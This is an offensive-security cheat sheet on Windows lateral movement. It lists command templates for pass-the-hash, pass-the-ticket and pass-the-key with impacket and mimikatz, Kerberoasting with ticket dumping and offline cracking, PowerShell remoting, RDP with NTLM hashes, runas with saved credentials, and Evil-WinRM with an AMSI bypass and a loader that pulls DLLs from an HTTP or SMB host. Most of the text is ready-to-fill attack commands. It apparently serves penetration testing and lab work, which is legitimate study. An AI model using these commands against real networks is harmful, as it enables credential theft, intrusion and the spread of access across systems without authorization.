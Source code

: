 # Lateral Movement

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#mimikatz
sekurlsa::logonpasswords    #get a list of NTLM and DAPI keys for users
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:powershell.exe
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

#### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

#### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing NTLM hash, AES key or a  password. The obtained TGT token can then be used to access other machines.

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Kerbertoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. Vulnerable accounts need to have the flag `serverPrincipalName` set.

Enumerate remote targets

```
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate  local sessions

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

Crack the .kirbi file

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## RunAs

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<user> "cmd.exe /k <cmd>"   //run command as user

runas /env /noprofile /user:<username> <password> "<cmd>"
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
